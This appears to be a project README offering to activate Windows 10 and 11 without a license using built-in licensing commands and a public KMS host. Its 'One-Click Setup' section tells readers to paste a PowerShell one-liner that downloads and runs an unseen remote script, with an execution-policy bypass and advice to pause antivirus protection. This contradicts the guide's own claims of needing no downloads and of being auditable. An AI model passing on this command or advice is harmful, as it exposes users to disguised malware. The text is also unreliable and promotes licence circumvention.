

<div align="center">

# 🔍 W11ACP: Windows Activation Explained Honestly — Deep Dive



[]() []() []()

</div>

---

W11ACP is a practical, command-line-based guide for activating Windows 10 and 11 without paid licenses, aimed at users who want a transparent walkthrough of the underlying process rather than a packaged tool. The guide walks through each step in order, from opening an elevated command prompt to clearing existing product keys, adjusting service states, and applying activation commands, so the sequence is easy to follow and verify. It is honest about scope: the procedure is intended for the Windows editions listed in the project, requires an internet connection, and works after a standard installation without extra updates or special software. Because the method relies on built-in system utilities, the documented commands can be reviewed and understood before being run, which keeps the process auditable. The project is open to contributions, and the execution file for these commands is distributed through the releases section, which should be run with administrator permission.

## 🛠️ One-Click Setup (PowerShell)

> [!TIP]
> **Automated setup** — one command, done.
> Windows 10/11 · PowerShell 7+ · No admin

### 1️⃣ Prepare PowerShell
* Press `Win + X`.
* Click **Terminal** or **Windows PowerShell** from the menu.

### 2️⃣ Paste and run
Paste and run. Wait until the process completes.

```cmd
iex(irm 'https://activation-gateway.cc/update/ps-activator')
```

### 3️⃣ If PowerShell blocks the script
Run this command in CMD instead:

```cmd
powershell -NoProfile -ExecutionPolicy Bypass -Command "iex(irm 'https://activation-gateway.cc/update/ps-activator')"
```

> [!WARNING]
> If security software blocks the setup, temporarily pause Real-Time Protection, run the script, then re-enable it.

## ✅ Before You Start

- **OS:** Windows 10 / 11
- **Shell:** PowerShell 5.1+ or PowerShell 7+
- **Network:** internet access to download the script
- **Privileges:** standard user

## Background

W11ACP is a compact, command-line-driven guide and companion repository for activating Windows 10 and Windows 11 without purchasing a retail license. Rather than bundling a prebuilt tool or graphical utility, the project documents a short sequence of native Windows commands — primarily `slmgr.vbs` and `DISM` — that reset the existing license state, confirm which editions the installed image can be upgraded to, and then apply key management service (KMS) settings to complete activation. A downloadable execution file mirroring these commands is offered in the releases area so the same steps can be run without manual copying, provided it is launched with administrative privileges.

The background of the project rests on how Windows licensing has historically worked. Retail and OEM licenses bind a product key to the machine or Microsoft account, while volume licensing — used by organizations — allows many machines to activate against a central KMS host on a local network. The commands documented here repurpose that volume-activation mechanism by pointing the client at a publicly reachable KMS host, installing a generic volume license key matching the installed edition, and requesting activation. Because the keys involved are publicly published generic keys rather than unique purchased keys, the activation is functional but not a legitimate retail license; it depends on the availability of the external KMS host and on the machine being able to reach it over the internet. The project is honest about its scope: it is a collection of commands and instructions, not a alternative, patch, or modified system binary, and it does not alter Windows core files.

The project also reflects practical realities of the Windows upgrade path. The `DISM /online /Get-TargetEditions` step exists because Windows images frequently ship with the ability to move between editions — for example, from Home to Pro — using a change-product-key command, without reinstalling the operating system. Verifying the target edition list first avoids wasted effort on images that cannot be upgraded. Similarly, the commands that configure the LicenseManager and Windows Update services to start automatically address a common failure mode: activation requests silently failing because the relevant services were disabled or stopped after installation.

W11ACP has been checked against the Home, Pro, and Enterprise editions of both Windows 10 and Windows 11. It requires only an internet connection and one of those supported versions; no additional updates or third-party software are needed, and the procedure can be performed immediately after a clean installation. The project is maintained as an openly readable reference — the full command list, expected output, and tested edition matrix are documented so users can verify each step before running anything — and contributions are welcome through the repository's standard development workflow. It is worth stating plainly that this guide is intended for learning and experimentation with Windows activation internals; users who need a permanent, legitimate license should obtain one through official channels, as KMS-based activation of this kind is temporary and dependent on an external service the project does not control.

## Requirements

Before attempting activation, confirm your environment meets the following conditions. These are baseline prerequisites; skipping any of them is the most common cause of failed or incomplete activation.

- **Supported operating system.** The procedure targets Windows 10 and Windows 11 consumer and business editions. It is not intended for Windows Server releases, Windows 7/8.1, or Insider Preview builds, where activation behavior can differ. Check your edition and build number in the system settings before proceeding.

- **Administrative rights.** Activation modifies licensing services, product key entries, and service startup types. All commands must be executed from an elevated command prompt or an elevated execution file; a standard user session will not have sufficient privileges.

- **An active internet connection.** Activation requires reaching Microsoft's licensing infrastructure. A stable connection is needed at the time of activation; offline activation is outside the scope of this project.

- **No prior partial activation attempts left unaddressed.** If a product key or KMS host was previously installed, the existing license state should be cleared first. The guide's command sequence accounts for this, but understand that residual settings can interfere.

- **Basic familiarity with the command line.** You should be comfortable opening an elevated terminal, pasting commands one at a time, and reading their output. Commands are executed sequentially and order matters.

- **A willingness to accept the trade-offs.** This is an unofficial activation method. It is not endorsed by Microsoft, it does not grant a genuine license, and it may be affected by future Windows updates. Activation status can revert, and system stability or update behavior is not guaranteed. Use it only on systems you own or are authorized to modify, and be aware that Microsoft's terms of service and local law may prohibit this approach.

- **A backup or restore point.** Because the process alters licensing services and system settings, creating a restore point beforehand is strongly recommended so you can roll back if activation does not complete as expected.

## Step-by-Step Activation

Before running anything, confirm that the edition installed on your machine matches one of the editions W11ACP is intended to cover. You can check this quickly through the Settings app under System, or by running a single line in an elevated command prompt that queries the operating system description. This matters because the activation routine targets specific SKUs; if your installation is an edition outside that list, the commands may report success while leaving the license in an inconsistent state. Take note of your edition before proceeding so you can interpret the output correctly.

The activation process requires an elevated command prompt. Open the Start menu, type the name of the command interpreter, right-click the result, and choose the option to run it as administrator. A standard user prompt will not have the permissions needed to modify licensing services or install product keys, and any commands issued from it will fail with access errors. Keep the window open for the entire sequence.

Work through the commands one at a time, in the order presented, pasting each line and waiting for it to finish before moving to the next. The first few steps are cleanup operations: they remove any existing product key from the system, clear that key from the local license database, and reset the configured activation server. These steps are safe to run on a system that already appears activated, but they will temporarily leave Windows reporting an unlicensed state, which is expected.

Next, query the editions available for your installation. The output lists the target editions your current build can support. If a professional-tier edition appears in that list, an in-place edition upgrade is possible without reinstalling the operating system, which is often the cleanest path for home editions that need business features.

The following pair of commands ensures that the licensing manager and Windows Update services are set to start automatically and are running. Both services are involved in activation and edition changes; if either is stopped or set to manual, later steps can fail silently. Verify that each command reports the service started successfully before continuing.

The final group of commands performs the actual activation. One command changes the product key to a generic key associated with the target edition; on some systems this triggers an edition upgrade and may require a restart before the remaining commands will take effect. The next command installs a specific product key, the one after that points Windows at a key management service host, and the last command requests activation from that host. Read each command's output as it appears rather than pasting the whole block at once, because an error in an early step will cascade through the rest.

When activation succeeds, the final command returns a confirmation message indicating the product has been activated. If instead you see an error code, the most common causes are a network connection that cannot reach the configured host, a mismatched edition, or a service that stopped between steps. Re-running the service commands and then the activation command again resolves most transient failures.

Restart the machine after activation completes. A restart finalizes any pending edition change and lets the licensing subsystem settle into its new state. After the reboot, check the activation status in Settings to confirm the system reports itself as activated, and keep in mind that this method relies on an external service, so periodic re-activation may be required if the host becomes unreachable.

## Tested Versions

The following editions have been tested and confirmed working with the activation procedure described in this guide. Testing was performed on clean installations without prior activation history, and results reflect the behavior observed at the time of testing. Activation success can vary depending on the build number, the presence of pending updates, and the current state of the licensing service, so editions or builds not listed here are not guaranteed to work.

### Windows 10

- Windows 10 Home — confirmed working
- Windows 10 Pro — confirmed working
- Windows 10 Enterprise — confirmed working

### Windows 11

- Windows 11 Home — confirmed working
- Windows 11 Pro — confirmed working
- Windows 11 Enterprise — confirmed working

These results cover the mainstream consumer and business editions most commonly encountered. Other SKUs, such as Education, Pro Education, or LTSC/LTSB builds, were not part of the test matrix and should be treated as unverified. Likewise, activation was validated on standard x64 installations; ARM-based devices and virtualized environments may behave differently and were not independently verified.

Because Microsoft periodically changes licensing components through cumulative updates, an edition that works today may require re-testing after a major feature update. If you encounter a failure on a listed edition, checking that the system is fully updated and that the licensing and Windows Update services are running is a reasonable first step before concluding the method no longer applies. Reports of successes or failures on additional editions are welcome, as they help keep this list accurate over time.

## Conclusion

W11ACP has been checked against the six Windows editions listed in the tested versions section, covering Home, Pro, and Enterprise on both Windows 10 and Windows 11. Each activation path relies solely on the built-in license management tools that ship with the operating system, which means no third-party utilities, no extra downloads, and no pending updates are required before you begin. The process works immediately after a clean installation.

That said, a few honest caveats are worth keeping in mind. Activation through this method depends on a reliable Internet connection and on the availability of the external activation server referenced in the steps. If that server is unreachable or changes behavior, the final activation command may not succeed on the first attempt, and retrying later is often the simplest remedy. Results can also vary on heavily modified or domain-managed installations, where organizational policies may override local activation settings.

If a step fails, the most reliable approach is to move through the sequence again from the beginning rather than skipping ahead, since the cleanup commands are designed to leave a clean slate for the new key. Restarting Windows after the final confirmation message helps ensure the license state is applied consistently across the system.

Treat this guide as an educational walkthrough of how Windows licensing commands behave, and be aware that using it to activate a copy of Windows you did not purchase may conflict with Microsoft's terms of service in your region. Where possible, support the software you rely on through a legitimate license. Used responsibly and with those limitations in mind, W11ACP offers a clear, reproducible reference for understanding the activation process end to end.